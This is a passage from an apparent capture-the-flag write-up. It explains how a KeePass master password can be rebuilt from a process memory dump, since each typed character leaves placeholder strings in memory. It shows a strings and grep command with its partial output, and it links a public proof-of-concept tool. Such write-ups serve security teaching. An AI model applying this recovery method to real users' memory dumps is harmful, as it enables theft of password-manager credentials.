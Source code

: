 I have a dump of the KeePass memory, so this seems like a good thing to try.
I’ll show how to do it from both Linux and Windows.

At the time of Keeper’s release, there was really only one POC exploit on
GitHub named [keepass-password-dumper](https://github.com/vdohney/keepass-
password-dumper) in DotNet.

#### Theory

The issue is not that the KeePass key is in memory. It’s that when the user
types their password in, the strings that get displayed back end up in memory.

For example, let’s take the password “password”. The first character goes in
as a “●” (which is `\u25cf` or `\xcf\x25` in memory). The next character
comes, and it will show up as “●a”. Then the next character will be “●●s”,
then “●●●s”, then “●●●●w”, and so on, until we get to “●●●●●●●d”.

The exploits look through memory for strings that start with some number of
“●” and then one character, and build out the most likely master key.

### Recover Password

#### POC Manually

I can take a look at this manually using `strings` and `grep`. With `-e S`,
strings will look for 8-bit characters, which will include what’s needed for
the “●” (though it will show up as “%” in my terminal). Then I can `grep` for
strings that start with two “●” to see potential matches for the keys being
input:

    
    
    oxdf@hacky$ strings -e S KeePassDumpFull.dmp | grep -a $(printf "%b" "\\xCF\\x25\\xCF\\x25")
    %%
    %%d
    %%d
    %%%
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%%g
    %%%g
    %%%%
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%%r
    %%%%r
    %%%%%
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%r